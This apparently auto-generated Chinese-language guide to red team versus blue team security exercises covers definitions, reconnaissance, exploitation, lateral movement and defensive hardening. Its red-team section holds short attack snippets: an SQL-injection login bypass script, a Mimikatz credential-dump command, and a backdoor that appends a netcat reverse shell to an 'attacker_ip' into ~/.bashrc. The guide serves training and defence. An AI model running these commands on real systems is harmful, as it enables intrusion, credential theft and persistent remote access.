 # 红蓝对抗实战演练技术文档

## 1. 概述

### 1.1 定义
红蓝对抗（Red Team vs. Blue Team）是一种模拟真实网络攻击与防御的实战演练模式。红队（Red Team）扮演攻击者，负责模拟高级持续性威胁（APT）或其他恶意攻击行为；蓝队（Blue Team）则扮演防御者，负责检测、响应和修复攻击行为。通过这种对抗模式，企业或组织能够评估其安全防护体系的有效性，并提升安全团队的技术能力。

### 1.2 目的
- **评估安全防护体系**：通过模拟真实攻击，发现现有安全防护体系的漏洞和薄弱点。
- **提升团队能力**：增强红队和蓝队在攻击与防御方面的技术能力。
- **优化安全策略**：基于演练结果，优化安全策略、流程和工具。
- **提高应急响应能力**：通过实战演练，提升团队在真实攻击场景下的应急响应效率。

---

## 2. 红蓝对抗的原理

### 2.1 攻击与防御的博弈
红蓝对抗的核心是攻击与防御的博弈。红队通过模拟真实攻击者的行为，尝试突破蓝队的防御体系；蓝队则通过监控、分析和响应，阻止红队的攻击行为。这种博弈过程能够揭示安全防护体系的不足，并为改进提供依据。

### 2.2 模拟真实攻击场景
红蓝对抗的关键在于模拟真实的攻击场景。红队通常会使用与真实攻击者相同的技术手段，如社会工程学、漏洞利用、横向移动等。蓝队则需要基于真实的安全防护体系进行检测和响应。

### 2.3 持续改进
红蓝对抗是一个持续改进的过程。通过多次演练，企业或组织能够不断优化其安全防护体系，并提升团队的技术能力。

---

## 3. 红蓝对抗的分类

### 3.1 按演练范围分类
- **局部演练**：针对特定系统或应用进行演练，如Web应用、数据库等。
- **全局演练**：覆盖整个企业或组织的IT基础设施，包括网络、服务器、终端等。

### 3.2 按演练目标分类
- **技术演练**：侧重于技术层面的攻击与防御，如漏洞利用、横向移动等。
- **流程演练**：侧重于安全流程的验证，如事件响应、漏洞管理等。

### 3.3 按演练方式分类
- **内部演练**：由企业或组织内部的安全团队进行演练。
- **外部演练**：邀请第三方安全团队进行演练，以获得更客观的评估结果。

---

## 4. 红队技术细节

### 4.1 信息收集
红队首先需要收集目标系统的信息，包括IP地址、域名、开放端口、服务版本等。常用的工具包括：
- **Nmap**：用于端口扫描和服务识别。
- **Shodan**：用于搜索暴露在互联网上的设备和服务。
- **Whois**：用于查询域名注册信息。

```bash
# 示例：使用Nmap进行端口扫描
nmap -sV -p 1-65535 target_ip
```

### 4.2 漏洞利用
红队会利用目标系统中已知的漏洞进行攻击。常见的漏洞类型包括：
- **SQL注入**：通过构造恶意SQL语句，获取数据库中的敏感信息。
- **XSS**：通过注入恶意脚本，窃取用户会话或执行其他恶意操作。
- **RCE**：通过利用远程代码执行漏洞，获取目标系统的控制权。

```python
# 示例：利用SQL注入漏洞
import requests

url = "http://target.com/login"
payload = "' OR '1'='1"
data = {"username": payload, "password": "password"}
response = requests.post(url, data=data)
print(response.text)
```

### 4.3 横向移动
红队在成功入侵一个系统后，通常会尝试在目标网络中横向移动，以获取更多权限或数据。常用的技术包括：
- **Pass the Hash**：利用哈希值绕过密码验证。
- **Mimikatz**：用于提取Windows系统中的凭据。
- **PsExec**：用于在远程系统上执行命令。

```bash
# 示例：使用Mimikatz提取凭据
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords"
```

### 4.4 持久化
为了确保在目标系统中的长期存在，红队通常会部署持久化机制，如后门、计划任务等。

```bash
# 示例：在Linux系统中创建后门
echo "nc -e /bin/bash attacker_ip 4444" >> ~/.bashrc
```

---

## 5. 蓝队技术细节

### 5.1 监控与检测
蓝队需要实时监控目标系统的活动，以检测潜在的攻击行为。常用的工具包括：
- **SIEM**：用于集中管理和分析安全事件。
- **IDS/IPS**：用于检测和阻止网络攻击。
- **EDR**：用于检测终端上的恶意行为。

```bash
# 示例：使用SIEM查询安全事件
SELECT * FROM security_events WHERE event_type = 'malware'
```

### 5.2 分析与响应
蓝队在检测到攻击行为后，需要快速分析并采取响应措施。常见的响应措施包括：
- **隔离受感染系统**：防止攻击者进一步扩散。
- **修复漏洞**：修补被利用的漏洞，防止再次攻击。
- **取证分析**：收集攻击证据，用于后续调查。

```bash
# 示例：隔离受感染系统
iptables -A INPUT -s infected_ip -j DROP
```

### 5.3 恢复与加固
在攻击被阻止后，蓝队需要恢复受影响的系统，并加固安全防护体系，以防止类似攻击再次发生。

```bash
# 示例：更新系统补丁
sudo apt-get update && sudo apt-get upgrade
```

---

## 6. 防御思路与建议

### 6.1 加强监控与检测
- 部署SIEM、IDS/IPS等监控工具，实时检测潜在的攻击行为。
- 定期分析日志，发现异常活动。

### 6.2 定期演练与培训
- 定期进行红蓝对抗演练，评估安全防护体系的有效性。
- 对安全团队进行培训，提升其技术能力。

### 6.3 修复已知漏洞
- 定期扫描系统，发现并修复已知漏洞。
- 及时更新系统和应用补丁。

### 6.4 实施最小权限原则
- 限制用户和系统的权限，减少攻击面。
- 使用多因素认证，增强身份验证的安全性。

### 6.5 制定应急响应计划
- 制定详细的应急响应计划，明确各角色的职责和流程。
- 定期测试应急响应计划，确保其有效性。

---

## 7. 总结
红蓝对抗实战演练是提升企业或组织安全防护能力的有效手段。通过模拟真实攻击场景，红队和蓝队能够在实战中提升技术能力，并发现安全防护体系的不足。通过持续改进，企业或组织能够构建更加健壮的安全防护体系，有效应对日益复杂的网络威胁。

---

*文档生成时间: 2025-03-17 11:20:51*
